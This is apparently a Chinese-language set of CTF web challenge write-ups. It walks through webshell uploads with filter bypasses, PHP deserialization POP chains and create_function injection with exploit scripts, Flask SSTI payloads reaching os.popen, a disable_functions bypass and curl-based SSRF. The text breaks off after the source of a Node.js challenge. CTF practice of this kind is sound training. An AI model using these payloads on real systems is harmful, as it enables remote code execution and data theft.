最后会对zero进行base64解码，因为是highlight_file()函数，所以我们的zero.end应该是flag.php的文件名

所以我们的payload

```
?first=aaaa|.php&zero=ZmxhZw==
```


## 字符？正则？

### #php特性

```php
<?php 
highlight_file('2.php');
$key='flag{********************************}';
$IM= preg_match("/key.*key.{4,7}key:\/.\/(.*key)[a-z][[:punct:]]/i", trim($_GET["id"]), $match);
if( $IM ){ 
  die('key is: '.$key);
}
?>
```

先解释一下这句代码

`$IM= preg_match("/key.*key.{4,7}key:\/.\/(.*key)\[a-z][[:punct:]]/i", trim($_GET["id"]), $match);`

1. `/`: 正则表达式的开始和结束标记。
2. `key.*key`: 匹配以 `key` 开头和结尾，中间任意字符（`.*` 表示零个或多个任意字符）的子字符串。
3. `.{4,7}`: 匹配任意字符（`.`）4到7次。
4. `key:\/.\/`: 匹配 `key:/./` 这个子字符串。
5. `(.*key)`: 匹配任意字符（`.*`）直到遇到 `key`，并将匹配的部分捕获到一个分组中。
6. `[a-z]`: 匹配任意小写字母。
7. `[[:punct:]]`: 匹配标点字符。
8. `/i`: 表示不区分大小写进行匹配。
9. 综合起来，这个正则表达式的大致含义是：匹配包含以下模式的字符串：
   - 以 `key` 开头，中间包含任意字符，以 `key` 结尾。
   - 中间有 4 到 7 个任意字符。
   - 包含特定字符串 `key:/./`。
   - 捕获从上一个 `key` 到下一个 `key` 之间的任意字符序列。
   - 之后是一个小写字母和一个标点字符。

在这行代码中，`preg_match` 函数将检查 `$_GET["id"]` 中的内容是否符合上述正则表达式的模式。如果匹配成功，则返回值 `$IM` 为 1，匹配的结果会存储在数组 `$match` 中。如果匹配失败，则返回值为 0。

所以我们这里的话是需要匹配结果为1才能执行if语句拿到flag

那我们顺着他的匹配去就行

payload

```
?id=key1234keyaaaakey:/./akeyx.
```


## Flask_FileUpload

### #python代码执行


需要的是python的文件执行命令

```python
import os
print(os.system('ls -al'))
```

- 通过 `os` 模块，你可以访问操作系统的功能，如文件操作、进程管理、环境变量等。

改成jpg或者png格式就会执行


上传后成功了但是并没有看到执行结果，我们用bp抓包试试


有但是不在该目录，我们看一下根目录，直接在bp里面改代码就行


看到了，然后我们修改一下命令


## xxx二手交易市场

### #文件上传RCE


简单看了一下源代码发现没什么可用信息，不过我发现了登录和注册的口子

额，黑盒测试，得一个个慢慢测，在登录注册界面进行sql注入发现不得行，所以这里的话还是一个文件上传，口子在上传头像那里


上传头像然后抓包，这样操作更方便

先是写了一个php一句话木马，但是发现都提交不上去


应该是有前端验证了，那我们改后缀改成jpg或者png格式再上传一次

好吧假造不出来，估计是对文件内容进行了验证

那我们先上传一个正常的图片


这里可以看到我们发现是进行了base64加密的并且这里使用的是data协议来上传，，那我们写个一句话木马，然后进行base64编码


然后把jpeg改成php，让php来作为文件后缀


可以得到一个图片路径，将这个路径去掉\号并与去掉/User的原本路径合并起来，让蚁剑进行连接就可以拿到flag了

## 文件上传

### #文件上传RCE


指明了不能传php格式，不过我们还是先把我们的一句话木马上传看一下回显


无效文件，那我们改成jpg传看一下


这里可以看到是上传成功了的，说明并没有对文件内容进行一定的检查，那就试一下是不是对其他地方进行了检测

然后我测试半天都没搞明白，就直接看别人的wp了

大佬的wp：

使用burp抓包，不断尝试发现发现需要修改的地方有三个：

一个是http head里的Content-Type: multipart/form-data;
请求头部的 Content-Type 内容 随便改个大写字母过滤掉 比如 mulTipart/form-data （其t为大写）
Multipart里的部分字母改成大写的。

第二个是文件的的Content-Type: application/octet-stream，改成image/jpeg

第三个是文件后缀名改成php4
（依次尝试php4，phtml，phtm，phps，php5（包括一些字母改变大小写））分别将后缀名修改为php2, php3, php4, php5, phps, pht, phtm, phtml（php的别名），发现只有php4没有被过滤

1. Multipart/form-data
   - 表示请求体是以多部分形式编码的。这种编码方式通常用于表单上传文件或包含文件和其他字段的复杂数据。

## getshell

### #绕过disable_function


nb，全是编码，php混淆解密，我们直接用网上的解密工具进行解密

```php
<?php
highlight_file(__FILE__);
@eval($_POST[ymlisisisiook]);
?>
```

看到是一句话木马，我们试着连一下


访问不了emm，应该是要绕过disable_functions，这就得用蚁剑的插件了


点击开始后会生成一个php木马文件，我们连接一下那个木马文件


就可以发现里面的目录都可以访问了

## 点login咋没反应

### #反序列化基础


这道题的话是login点不了

查看源码发现一个admin.css


让我们试一下?8033


拿到源码了

这里的话是需要我们设置一个cookie中的BUGKU值为`(s:13:"ctf.bugku.com";)`这样反序列化出来才会是ctf.bugku.com

所以我们抓包并设置cookie值，注意这里不要访问?8033


## Simple_SSTI_1

### #SSTI

很简单的一个ssti注入哈

You need pass in a parameter named flag。提示我们需要传入一个flag参数，我们先查看一下源代码


说明我们这里有一个变量是secret_key，那我们访问一下这个变量


## 兔年大吉2

### #php反序列化

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

class Happy{
    private $cmd;
    private $content;

    public function __construct($cmd, $content)
    {
        $this->cmd = $cmd;
        $this->content = $content;
    }

    public function __call($name, $arguments)
    {
        call_user_func($this->cmd, $this->content);
    }

    public function __wakeup()
    {
        die("Wishes can be fulfilled");
    }
}

class Nevv{
    private $happiness;

    public function __invoke()
    {
        return $this->happiness->check();
    }

}

class Rabbit{
    private $aspiration;
    public function __set($name,$val){
        return $this->aspiration->family;
    }
}

class Year{
    public $key;
    public $rabbit;

    public function __construct($key)
    {
        $this->key = $key;
    }

    public function firecrackers()
    {
        return $this->rabbit->wish = "allkill QAQ";
    }

    public function __get($name)
    {
        $name = $this->rabbit;
        $name();
    }

    public function __destruct()
    {
        if ($this->key == "happy new year") {
            $this->firecrackers();
        }else{
            print("Welcome 2023!!!!!");
        }
    }
}

if (isset($_GET['pop'])) {
    $a = unserialize($_GET['pop']);
}else {
    echo "过新年啊~过个吉祥年~";
}
?> 过新年啊~过个吉祥年~
```

魔术方法:

- `__call`: 在对象中调用一个不可访问方法时被调用
- `__invoke`： 当一个对象被作为函数调用时被调用
- `__set`: 当对象设置一个不存在的属性时调用
- `__get`： 当对象访问一个不存在的属性时调用

是一道反序列化的题目，那我们先构造pop链

构造pop链，我一般会先找到链子的出口，也就是能造成恶意攻击的地方

```php
    public function __call($name, $arguments)#在对象上下文中调用不可访问的方法时触发
    {
        call_user_func($this->cmd, $this->content);#cmd作为回调函数的函数名，content作为传入函数的参数
    }
```

这里可以看到call_user_func()函数就是可以进行恶意rce 的地方，所以他就是我们链子的出口，，找到出口了我们进行倒推，可以看到触发call_user_func()方法的前提是在对象上下文中调用不可访问的方法，那我们找一下这里哪有有调用不可访问或者不存在的方法

```php
class Nevv{
    private $happiness;

    public function __invoke()#当你尝试将一个对象像函数一样调用时触发这个方法
    {
        return $this->happiness->check();
    }

}
```

这里的话可以看到在这个invoke方法中进行了一个不可访问方法的调用，所以这里会触发我们的call方法，那么我们的pop链就是

```
Nevv::__invoke()->Happy::__call()
```

我们继续往前推，为了触发这个invoke方法，我们需要将对象像函数一样调用

```php
    public function __get($name)#读取不可访问或者是不存在的属性时触发
    {
        $name = $this->rabbit;
        $name();
    }
```

这里的话其实并不像上面那么明显，但是我们经过排除可以确定是可以通过这个方法去触发invoke方法，为什么呢?因为这个方法里面有$name()，所以如果我们让name的值为一个对象，就可以将对象像函数一样调用，然后就可以触发invoke方法，继续完善我们的pop链

```
Year::__get()->Nevv::__invoke()->Happy::__call()
```

继续，为了触发get方法，条件就不赘述了，上面都有

```php

    public function firecrackers()
    {
        return $this->rabbit->wish = "allkill QAQ";
    }
    public function __set($name,$val){#将数据写入不可访问或者不存在的属性时触发
        return $this->aspiration->family;
    }
```

这里可以看到两个方法都是访问了一个不存在的属性，但是我们可以看到在set方法的触发条件是将数据写入一个不可访问的属性，那刚好就是我们fircrackers方法的作用了，所以我们完整的pop链就是

```
Year::firecrackers()->Rabbit::__set()->Year::__get()->Nevv::__invoke()->Happy::__call()
```

但是因为我们的pop链需要触发的入口，所以我们可以通过destruct或者construct去触发我们的pop链，在Year类里面我们可以看到destruct方法

```php
   public function __destruct()
    {
        if ($this->key == "happy new year") {
            $this->firecrackers();
        }else{
            print("Welcome 2023!!!!!");
        }
    }
```

这里有调用firecrackers方法，所以这个可以作为我们的入口，那么我们完整的pop链就是

```
Year::__destruct()->Year::firecrackers()->Rabbit::__set()->Year::__get()->Nevv::__invoke()->Happy::__call()
```

根据pop链构造EXP

```php
<?php
class Happy{
    private $cmd;
    private $content;

    public function __construct($cmd, $content){
        $this->cmd = $cmd;
        $this->content = $content;
    }
}

class Nevv{
    private $happiness;

    public function __construct($happiness){
        $this->happiness=$happiness;
    }
}

class Rabbit{
    private $aspiration;
    public function __construct($aspiration){
        $this->aspiration=$aspiration;
    }
}

class Year{
    public $key="happy new year";
    public $rabbit;
}
$a=new Year();
$b=new Year();
$c=new Rabbit($b);
$e=new Happy("system","tac /flag");
$d=new Nevv($e);

$a->rabbit=$c;
$b->rabbit=$d;

echo urlencode(serialize($a));
?>

```

# unserialize-Noteasy

```php
<?php

if (isset($_GET['p'])) {
    $p = unserialize($_GET['p']);
}
show_source("index.php");

class Noteasy
{
    private $a;
    private $b;

    public function __construct($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
        $this->check($a.$b);
        eval($a.$b);
    }


    public function __destruct()
    {
        $a = (string)$this->a;
        $b = (string)$this->b;
        $this->check($a.$b);
        $a("", $b);
    }


    private function check($str)
    {
        if (preg_match_all("(ls|find|cat|grep|head|tail|echo)", $str) > 0) die("You are a hacker, get out");
    }


    public function setAB($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
    }
}
```

不会做，直接去学别人的做法了

利用的是create_function()的特性，那我们先了解一下这个函数

## create_function()

`create_function()` 是 PHP 中的一个函数，用于创建一个匿名函数。

基础语法

```php
string create_function(string $args, string $code)
```

- `args`：是一个代表函数参数的字符串，参数之间用逗号分隔。
- `$code`：是一个包含函数体代码的字符串。

举个例子

```php
$myFunction = create_function('$a, $b', 'return $a + $b;');
echo $myFunction(2, 3); // 输出 5
```

创建了一个匿名函数，接受两个参数 `$a` 和 `$b`，然后返回这两个参数的和。

```php

$double = create_function('$num', 'return $num * 2;');
echo $double(5); // 输出10
```

创建了一个匿名函数，接受参数$num，函数执行代码是返回这个参数的两倍值

拿刚刚第一个例子来说，我们通过create_function()创建出来的方法就是

```php
function($a,$b){
    return $a+$b;
}
```

那接下来我们来看题目

因为反序列化是不会触发构造函数的，所以我们可以忽略他，我们来看一下析构函数

```php
    public function __destruct()
    {
        $a = (string)$this->a;
        $b = (string)$this->b;
        $this->check($a.$b);
        $a("", $b);
    }
```

我们注意到$a("",$b);是符合我们create_function()的语法的，那我们令$a=create_function,但是我们只有第二个参数可控，所以这时候的方法结构就是

```php
function(){
    $b
}
```

但是有一个点我们需要注意，我们创建的方法是不会自动调用的，所以我们如果想要通过这里去执行命令的话，需要先把我们的function闭合，然后在function外写相关的命令去执行，例如

```php
function(){
    ;
}
system("ls");
```

但是单单是这样是不够的，我们如果只是让$b=;}system("ls");的话，就会是这样的

```php
function(){
    ;}
system("l\s /");/*;
}
```

可以看到会多出来一个}，这时候我们需要像sql注入一样用注释去把他注释掉

所以我们最终的payload就是:(记得绕过ls哈不然会被过滤)

```
$a=create_function,$b=;}system("l\s /");/*
```

exp

```php
<?php
class Noteasy
{
    private $a;
    private $b;

    public function __construct($a, $b)
    {
        $this->a = $a;
        $this->b = $b;
    }
}
// $a=new Noteasy("create_function",";}system('l\s ');/*");
$a=new Noteasy("create_function",";}system('tac flag');/*");#可以看flag的有很多，比如more,tac
echo urlencode(serialize($a));
```

# Simple_SSTI_2

flask下的ssti注入漏洞


存在ssti注入漏洞，那就用魔术方法来找一下flag

`__class__`:用于返回对象所属的类

`__base__`:以字符串的形式返回一个类所继承的类

`__bases__`:以元组的形式返回一个类所继承的类

`__mro__`:返回解析方法调用的顺序，按照子类到父类到父父类的顺序返回所有类（当调用_mro_[1]或者-1时作用其实等同于_base_）

```
第一步，拿到当前类，也就是用__class__
{{"".__class__}}
<class 'str'>
第二步，拿到基类，这里可以用__base__，也可以用__mro__
{{"".__class__.__base__}}
<class 'object'>
//object为str的基类
object是父子关系的顶端，所有的数据类型最终的父类都是object
{{"".__class__.__mro__}}
(<class 'str'>, <class 'object'>)
```

`__subclasses__()`:获取类的所有子类

`__init__`:所有自带带类都包含init方法，常用他当跳板来调用globals

`__globals__`:会以字典类型返回当前位置的全部模块，方法和全局变量，用于配合init使用

```
第三步，拿到基类的子类，用__subclasses__()
{{"".__class__.__base__.__subclasses__()}}
```


列出子类了

接下来的话，就要找可利用的类，寻找那些有回显的或者可以执行命令的类

大多数利用的是`os._wrap_close`这个类，可以执行命令，但是需要注意的是，这个类是python的标准库，所以需要在python环境下运行。

所以我们搜索一下这个类，然后看看这个类的下标


因为下标是从0开始的，所以我们取127

```
{{"".__class__.__base__.__subclasses__()[127]}}
```


接下来就可以利用`os._wrap_close`
首先先调用它的__init__方法进行初始化类

```
{{"".__class__.__bases__[0]. __subclasses__()[154].__init__}}
```

然后再调用__globals__获取到方法内以字典的形式返回的方法、属性等，那我们就获取一下flag属性看看有没有

```
{{"".__class__.__bases__[0]. __subclasses__()[154].__init__.__globals__['popen']('echo $FLAG').read()}}
```


# 闪电十六鞭

```php
Click here
<?php
    error_reporting(0);
    require __DIR__.'/flag.php';

    $exam = 'return\''.sha1(time()).'\';';

    if (!isset($_GET['flag'])) {
        echo '<a href="./?flag='.$exam.'">Click here</a>';
    }
    else if (strlen($_GET['flag']) != strlen($exam)) {
        echo '长度不允许';
    }
    else if (preg_match('/`|"|\.|\\\\|\(|\)|\[|\]|_|flag|echo|print|require|include|die|exit/is', $_GET['flag'])) {
        echo '关键字不允许';
    }
    else if (eval($_GET['flag']) === sha1($flag)) {
        echo $flag;
    }
    else {
        echo '马老师发生甚么事了';
    }

    echo '<hr>';

    highlight_file(__FILE__);
```

这里的话有一个click here，意思就是当我们没有传入flag的时候就会出现这个按钮

正则匹配就不需要讲了，我们先来看看$exam

$exam = 'return\''.sha1(time()).'\';';

- `sha1(time())`：这里 `time()` 函数返回当前时间戳，`sha1()` 函数对时间戳进行 SHA-1 哈希运算，返回一个40位的十六进制数字字符串。
- `return\'` 和 `\'`：这里是将字符串 `'return'` 和 `'\'` 连接在一起，其中 `\'` 是用来转义单引号 `'` 的。
- 所以，最终 `$exam` 的值是一个包含返回语句的字符串，返回的内容是当前时间戳经过 SHA-1 哈希后的结果。

```html
echo '<a href="./?flag='.$exam.'">Click here</a>'
```

在这里可以看到在我们点击了之后flag传入的参数就是exam的值


我们拿去解码可以得到exam的值为

```
return'02edd67c2475067bbdec0418d9c630b2b0c952fa';
```

但是对于

if (eval($_GET['flag']) === sha1($flag)) {
    echo $flag;

来说，我们需要让eval执行flag语句后的shal值和flag的相等

代码解析完成，开始做题

我们先看看exam的长度是多少

```php
<?php
$a="return'02edd67c2475067bbdec0418d9c630b2b0c952fa';";
echo strlen($a);
?>
#输出结果:49
```

所以我们的flag的长度要求是49

我先给payload再进行讲解

```php
/?flag=$a='fla9';$a{3}='g';?><?=$$a;?>111111111111111111
```

- 用单引号绕过双引号验证
- 通过参数套用绕过flag
- \<?=$$a;?>是为了输出我们的flag

\<? ?>和\<?= ?>是短标签而\<?php ?>是长标签，
其中\<?= 是代替 \<? echo的，\<? ?> 代替的是\<?php ?>

- 这里用?>是为了闭合eval，**因为短标签格式是可以识别phpinfo() ?>等类似只有?>形式的代码，所以payload前半段不需要加上<?**

# 安慰奖

在源代码中发现了一串被注释掉的编码，解码后提示是备份，那可能是源码泄露了，扫出来两个文件


但是读不出来flag.php，那我们把index.php.bak下载下来看看

```php
<?php

header("Content-Type: text/html;charset=utf-8");
error_reporting(0);
echo "<!-- YmFja3Vwcw== -->";
class ctf
{
    protected $username = 'hack';
    protected $cmd = 'NULL';
    public function __construct($username,$cmd)
    {
        $this->username = $username;
        $this->cmd = $cmd;
    }
    function __wakeup()
    {
        $this->username = 'guest';
    }

    function __destruct()
    {
        if(preg_match("/cat|more|tail|less|head|curl|nc|strings|sort|echo/i", $this->cmd))
        {
            exit('</br>flag能让你这么容易拿到吗？<br>');
        }
        if ($this->username === 'admin')
        {
           // echo "<br>right!<br>";
            $a = `$this->cmd`;
            var_dump($a);
        }else
        {
            echo "</br>给你个安慰奖吧，hhh！</br>";
            die();
        }
    }
}
    $select = $_GET['code'];
    $res=unserialize(@$select);
?>

```

这里的话还是反序列化，但是需要绕过我们的wakeup方法

```php
<?php
class ctf
{
    protected $username;
    protected $cmd;
    public function __construct($username,$cmd)
    {
        $this->username = $username;
        $this->cmd = $cmd;
    }
}
$ctf=new ctf('admin','ls');
echo urlencode('O:3:"ctf":3:{s:11:"*username";s:5:"admin";s:6:"*cmd";s:2:"ls";}');#修改属性个数
?>
```

注意，这里的话要关注成员属性的类型，因为是受保护的成员属性，所以我们的url编码上会有所差别

payload

```
?code=O%3A3%3A%22ctf%22%3A3%3A%7Bs%3A11%3A%22%00%2A%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A6%3A%22%00%2A%00cmd%22%3Bs%3A2%3A%22ls%22%3B%7D
```

然后用tac进行读取文件就可以了

# decrypt

是一个附件，我以为能省金币来着结果发现下载需要金币。。

```php
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) { 
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
```

我感觉这道题并不是web 的题目，但是不知道为啥放在web里面，所以我就直接上脚本了

```php
<?php
$key = md5('ISCC');
$x = 0;
$base64_str = 'fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=';
$data = base64_decode($base64_str);
$len = strlen($data);
$char = '';
$str = '';
$klen = strlen($key);
for ($i=0; $i < $len; $i++) {
    if ($x == $klen)
    {
        $x = 0;
    }
    $char .= $key[$x];
    $x+=1;
}
for ($i=0; $i < $len; $i++) {
    if (ord($data[$i]) > ord($char[$i])) {
        $str .= chr(ord($data[$i]) - ord($char[$i]));
    }
    else{
        $str .= chr (128+ord($data[$i])-ord($char[$i]));
    }
    print($str."\n");
}
?>
```


# Apache Log4j2 RCE

是一个远程代码执行漏洞

## Apache log4j介绍

　　Apache log4j是Apache的一个开源项目，Apache log4j 2是一个就Java的日志记录工具。该工具重写了log4j框架，并且引入了大量丰富的特性。我们可以控制日志信息输送的目的地为控制台、文件、GUI组建等，通过定义每一条日志信息的级别，能够更加细致地控制日志的生成过程。log4j2中存在JNDI注入漏洞，当程序记录用户输入的数据时，即可触发该漏洞。成功利用该漏洞可在目标服务器上执行任意代码。

# newphp

```php
<?php
// php版本:5.4.44
header("Content-type: text/html; charset=utf-8");
highlight_file(__FILE__);

class evil{
    public $hint;

    public function __construct($hint){
        $this->hint = $hint;
    }

    public function __destruct(){
    if($this->hint==="hint.php")
            @$this->hint = base64_encode(file_get_contents($this->hint)); 
        var_dump($this->hint);
    }

    function __wakeup() { 
        if ($this->hint != "╭(●｀∀´●)╯") { 
            //There's a hint in ./hint.php
            $this->hint = "╰(●’◡’●)╮"; 
        } 
    }
}

class User
{
    public $username;
    public $password;

    public function __construct($username, $password){
        $this->username = $username;
        $this->password = $password;
    }

}

function write($data){
    global $tmp;
    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
    $tmp = $data;
}

function read(){
    global $tmp;
    $data = $tmp;
    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
    return $r;
}

$tmp = "test";
$username = $_POST['username'];
$password = $_POST['password'];

$a = serialize(new User($username, $password));
if(preg_match('/flag/is',$a))
    die("NoNoNo!");

unserialize(read(write($a)));

```

字符串逃逸

原理可以自行百度哈

因为我们在evil类中可以看到有file_get_contents()函数去读取hint.php的值，但是题目中并没有对evil类进行一个反序列化，所以我们需要利用User类的反序列化操作去反序列化这个evil类，这样才能触发__destruct()魔术方法去访问hint.php

在这里，我们可以利用字符串增多和字符串减少进行字符串逃逸，但是首先我们都要理解到我们需要逃逸的字符串是什么

```
O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}
```

这个就是我们需要逃逸的字符串，然后我们就需要考虑是通过字符增多还是通过字符减少

```php
function write($data){
    global $tmp;
    $data = str_replace(chr(0).'*'.chr(0), '\0\0\0', $data);
    $tmp = $data;
}

function read(){
    global $tmp;
    $data = $tmp;
    $r = str_replace('\0\0\0', chr(0).'*'.chr(0), $data);
    return $r;
}
unserialize(read(write($a)));
```

在这里可以看到，如果我们选择字符增多的话，我们就会用\*去做替换，但是因为最后的反序列化的步骤，\*在write()方法做替换之后会在read()方法中重新替换回去，所以这没什么作用，那我们只能考虑字符减少，字符减少的话write()方法里面的替换就没什么干扰了

如果我们传入一个\0\0\0，经过这两个函数作用后，\0\0\0就会被替换成*，字符减少。那么我们可以对username传入若干组\0\0\0来将O:4:"evil":1:{s:4:"hint";s:8:"hint.php";}逃逸出去。当然，逃逸的关键就是闭合和字符个数

我们正常的序列化字符串是这样的

```php
<?php
class User
{
    public $username;
    public $password;

    public function __construct($username, $password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a=new User("1","2");
echo serialize($a);
#O:4:"User":2:{s:8:"username";s:1:"1";s:8:"password";s:1:"2";}
```

因为需要字符减少进行字符串逃逸，所以我们的真实的序列化的字符串应该是这样的

```
O:4:"User":2:{s:8:"username";s:1:"1";s:8:"password";s:44:"1";O:4:"evil":2:{s:4:"hint";s:8:"hint.php";}";}
```

";s:8:"password";s:44:"1就是我们需要吃掉的字符串，这里的字符串长度是24个，那\0\0\0可以替换一个chr(0).'*'.chr(0)，所以会减少三个字符，那么我们如果要减少24个字符，就需要8对\0\0\0，数学不差的话还是可以算出来的哈

所以我们的payload就是：

```php
username=\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0&password=1";O:4:"evil":2:{s:4:"hint";s:8:"hint.php";}
```


得到一个编码

```php
<?php
 $hint = "index.cgi";
 // You can't see me~
```

访问一下


不知道是不是有ssrf，UA头里出现了curl函数 我们知道curl函数是可以扒取前端页面的.

`User-Agent` 头部的取值为 `"curl/7.64.0"`，这表明发送该请求的客户端是使用 Curl 应用程序版本 7.64.0。Curl 是一个非常流行的命令行工具和库，用于在命令行下进行 URL 传输。通过 Curl，用户可以发送各种类型的网络请求，包括 HTTP 请求、FTP 请求等，从而方便地与 Web 服务器进行通信和数据交换。

我们测试一下

?name=1


那就用伪协议file去读文件

?name=%20file:///flag（file前要加空格）猜测服务端的curl函数进行执行时 是直接拼接我们的输入的值,例如  curlfile  这样执行不了    curl file 这样才可以执行ssrf

# sodirty


点击注册后


源码也没什么信息，扫目录扫到了一个www.zip


把文件下载下来(直接url后加上www.zip)

把文件的内容看了一遍，然后发现了一个index.js文件

```php
var express = require('express');
const setFn = require('set-value');
var router = express.Router();


const Admin = {
    "password":process.env.password?process.env.password:"password"
}


router.post("/getflag", function (req, res, next) {
    if (req.body.password === undefined || req.body.password === req.session.challenger.password){
        res.send("登录失败");
    }else{
        if(req.session.challenger.age > 79){
            res.send("糟老头子坏滴很");
        }
        let key = req.body.key.toString();
        let password = req.body.password.toString();
        if(Admin[key] === password){
            res.send(process.env.flag ? process.env.flag : "flag{test}");
        }else {
            res.send("密码错误，请使用管理员用户名登录.");
        }
    }

});
router.get('/reg', function (req, res, next) {
    req.session.challenger = {
        "username": "user",
        "password": "pass",
        "age": 80
    }
    res.send("用户创建成功!");
});

router.get('/', function (req, res, next) {
    res.redirect('index');
});
router.get('/index', function (req, res, next) {
    res.send('<title>BUGKU-登录</title><h1>前端被炒了<br><br><br><a href="./reg">注册</a>');
});
router.post("/update", function (req, res, next) {
    if(req.session.challenger === undefined){
        res.redirect('/reg');
    }else{
        if (req.body.attrkey === undefined || req.body.attrval === undefined) {
            res.send("传参有误");
        }else {
            let key = req.body.attrkey.toString();
            let value = req.body.attrval.toString();
            setFn(req.session.challenger, key, value);
            res.send("修改成功");
        }
    }
});

module.exports = router;
```
